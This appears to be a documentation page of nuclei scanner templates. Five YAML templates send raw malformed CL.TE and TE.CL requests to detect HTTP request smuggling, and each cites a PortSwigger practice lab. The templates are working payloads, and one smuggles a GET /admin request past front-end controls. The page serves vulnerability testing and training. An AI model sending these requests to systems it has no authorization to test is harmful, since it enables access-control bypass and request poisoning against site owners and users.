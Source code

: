 ### Basic CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.

```yaml
id: CL-TE-http-smuggling

info:
  name: HTTP request smuggling, basic CL.TE vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0
      
      G
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked
      
      0
      
      G
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "Unrecognized method GPOST")'
```

### Basic TE.CL

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: TE-CL-http-smuggling

info:
  name: HTTP request smuggling, basic TE.CL vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5c
      GPOST / HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5c
      GPOST / HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "Unrecognized method GPOST")'
```

### Frontend bypass CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: smuggling-bypass-front-end-controls-cl-te

info:
  name: HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 116
      Transfer-Encoding: chunked
      
      0
      
      GET /admin HTTP/1.1
      Host: localhost
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 10
      
      x=
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 116
      Transfer-Encoding: chunked
      
      0
      
      GET /admin HTTP/1.1
      Host: localhost
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 10
      
      x=
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "/admin/delete?username=carlos")'
```

### Differential responses based CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: confirming-cl-te-via-differential-responses-http-smuggling

info:
  name: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 35
      Transfer-Encoding: chunked
      
      0
      
      GET /404 HTTP/1.1
      X-Ignore: X
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 35
      Transfer-Encoding: chunked
      
      0
      
      GET /404 HTTP/1.1
      X-Ignore: X
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'status_code==404'
```

### Differential responses based TE.CL

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.


```yaml
id: confirming-te-cl-via-differential-responses-http-smuggling

info:
  name: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5e
      POST /404 HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      Content-length: 4
      Transfer-Encoding: chunked
      
      5e
      POST /404 HTTP/1.1
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 15
      
      x=1
      0
      
    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'status_code==404'
```
